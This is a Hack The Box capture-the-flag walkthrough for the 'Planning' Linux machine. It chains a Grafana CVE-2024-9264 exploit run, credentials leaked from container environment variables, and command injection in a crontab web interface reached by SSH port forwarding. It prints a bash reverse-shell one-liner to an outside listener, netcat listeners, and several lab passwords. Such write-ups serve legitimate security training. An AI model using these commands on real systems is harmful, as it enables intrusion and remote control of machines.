# 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````



---

### 2️⃣ Virtual Host Setup


Edited `/etc/hosts`:

```
10.10.11.68 planning.htb
```

---

### 3️⃣ Subdomain Discovery



```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Discovered: `grafana.planning.htb`
Updated `/etc/hosts`:



---

### 4️⃣ Grafana Exploitation (CVE-2024-9264)

Visited: `http://grafana.planning.htb`



**Credentials:**

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

Used exploit:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

Start listener:

```bash
nc -lvnp 9001
```



Run exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```




✅ Reverse shell obtained.

---

### 5️⃣ Docker Escape

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```



SSH into host:

```bash
ssh enzo@10.10.11.68
```



```bash
cat /home/enzo/user.txt
```



---

### 6️⃣ Privilege Escalation

Ran linpeas:

```bash
./linpeas.sh
```

Found crontab:

```bash
cat /opt/crontabs/crontab.db
```




Used:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

Local port 8000 found:


SSH Port Forward:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```


Visited: `http://localhost:8000`


Injected shell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```



Started listener:

```bash
nc -lvnp 8888
```




---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```




---

## ✅ Conclusion

This machine demonstrated a full attack chain:

* Default credentials in Grafana
* Docker environment variable leaks
* Misconfigured internal services
* Port forwarding + command injection

Great for practicing real-world exploitation chains!

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit Script](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

